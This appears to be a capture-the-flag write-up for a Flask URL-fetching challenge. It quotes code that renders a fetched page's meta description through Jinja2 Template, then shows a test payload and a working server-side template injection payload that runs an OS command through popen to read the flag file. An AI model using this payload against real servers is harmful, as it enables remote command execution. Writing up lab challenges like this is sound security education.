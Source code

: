 # Overview
This is the login and registration interface when we start entering the website  
  
<img width="500" height="300" alt="image" src="https://github.com/user-attachments/assets/2cb3233f-e361-46af-b837-190d75dc273c" />

After creating an account and logging in, you will be taken to a page that allows us to fetch the urls we passed  
<img width="500" height="300" alt="image" src="https://github.com/user-attachments/assets/b4c84f43-731b-4fc2-97cf-ffbce2193a0e" />  


Try streaming https://facebook.com  
<img width="500" height="300" alt="image" src="https://github.com/user-attachments/assets/343f43da-8cdb-40b3-a59b-5e3d335e3fca" />  
There are 3 return parameters:  
* Url when fetched
* Title page
* Description
Reading the source code we can see there is a vulnerability related to SSTI:
```
  escaped_description = html.escape(description) # Escape HTML entities in description
  escaped_description = Template(description).render()
  escaped_url = html.escape(url)
  escaped_title = html.escape(title)
```
=> We can see that if we pass an SSTI payload into the description, it will be reflected out  
Analyzing the code a little more, we can see that the website uses flask python to code and the jinja2 template is imported for use.  
```
from flask import Flask, request, render_template, redirect, url_for, session, g
from jinja2 import Template
```
# Writeup
Now we will create a web metadata containing description and payload  
```
<html>
  <head>

    <meta name="description" content="{{ 7*’7’}}">
  </head>
  <body>Exploit</body>
</html>
```
We see that the description has executed the payload **SSTI** :  
<img width="500" height="300" alt="image" src="https://github.com/user-attachments/assets/c1233d0b-a486-42fd-b0fb-2f90859ce646" />  
Now we will transmit the payload to read the flag:  
```{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read() }}```  
  
Flag will be returned  
<img width="500" height="250" alt="image" src="https://github.com/user-attachments/assets/d935b5ef-7d3b-40b7-acfb-c40fd7fced52" />
  
See more: [Jinja2](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md#jinja2)



